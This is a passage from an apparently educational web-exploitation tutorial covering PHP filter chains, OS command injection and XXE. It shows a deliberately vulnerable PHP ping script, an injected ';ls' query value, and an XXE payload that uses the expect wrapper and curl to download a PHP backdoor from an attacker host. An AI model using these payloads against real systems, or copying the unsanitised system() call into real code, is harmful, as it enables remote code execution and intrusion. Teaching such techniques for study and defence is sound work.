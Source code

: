 
And now for the better part -> Using PHP filter chain.

https://github.com/synacktiv/php_filter_chain_generator
This tool generates us from a php code specified the filter payload. The syntax is simple : 
`$ python3 php_filter_chain_generator.py --chain '<php code here>'`


I ain't no expert of why it works, but will add this later, for now you can read an article about it here : 
https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it


#### 4) OS command injection

This "vulnerability" is a classic one, when you will learn more about OS command injection. It is usually presented with a input field, where you can, for example, type an IP address and ping it. If insecure, we can break from the command and make another ones.

Example : 

Let's say we have an application that wants us to write an IP & then ping it.

```php
<?php
$addr = $_GET["addr"];
$output = system("ping -n 5 $addr")
echo "<pre>$output</pre>"
?>
```

Normally, we would request something like `freeoscp.net/?addr=1.3.3.7` and wait for the response. But since we can clearly see, it's not making any checks the input is actually an IP address, we can abuse it by escaping from the ping command. 
`freeoscp.net/?addr=1.3.3.7;ls`

In the backend, this will happen : `ping -n 5 1.3.3.7;ls`. it will execute ping and then ls.


#### 5) XXE 

XXE can lead to RCE via something we've already mentioned -> `expect PHP wrapper`

We can simply host a PHP backdoor on our server (which is port forwarded, so it can interact with the internet), then send a XML payload, like this : 
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE root [  
	<!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7:1337/shell.php'">  
]>  
<main>
	<number>1337</number>
	<name>hackerman</name>
	<salary>&file;</salary>
</main>
```
Note, that the XML tags needs to be the same as when issuing a normal request. The only thing we change, is the fact that we are calling the entity, called `$file`.

